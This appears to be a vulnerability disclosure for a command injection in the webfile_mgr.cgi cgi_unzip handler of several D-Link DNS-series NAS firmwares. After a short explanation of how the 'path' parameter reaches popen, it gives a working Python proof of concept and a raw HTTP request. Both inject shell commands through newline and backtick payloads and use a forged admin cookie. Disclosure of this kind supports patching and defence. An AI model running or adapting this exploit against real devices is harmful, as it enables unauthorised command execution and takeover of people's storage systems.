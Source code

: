 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)
# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_unzip function of the file /cgi-bin/webfile_mgr.cgi.  The variable `path`is passed from a POST request and is assigned to `s` via the `sprintf` function at line 18 and invoked by the `popen` command, the fix_path_special_char function did not work which leads to command execution. 
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723730444351-07c8c554-729a-4a7e-beb6-fc2417fb82a9.png#averageHue=%23fefefd&clientId=u7743dfdf-be58-4&from=paste&height=113&id=u3e08daef&originHeight=176&originWidth=601&originalType=binary&ratio=1&rotation=0&showTitle=false&size=20648&status=done&style=none&taskId=u208d9523-e3eb-4591-88ef-a15f609dd94&title=&width=387)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723730628254-2de9898f-8af1-40d9-9f6c-d70222007b9b.png#averageHue=%23fefdf9&clientId=u7743dfdf-be58-4&from=paste&height=199&id=u50dac292&originHeight=199&originWidth=844&originalType=binary&ratio=1&rotation=0&showTitle=false&size=28116&status=done&style=none&taskId=udd8a2532-a18f-4209-aa95-9a29aeea642&title=&width=844)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/webfile_mgr.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_unzip&path=%0atouch%09/tmp/121%0a&name=`touch%09/tmp/121`"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```
POST /cgi-bin/webfile_mgr.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=cgi_unzip&path=%0atouch%09/tmp/121%0a&name=`touch%09/tmp/121`
```


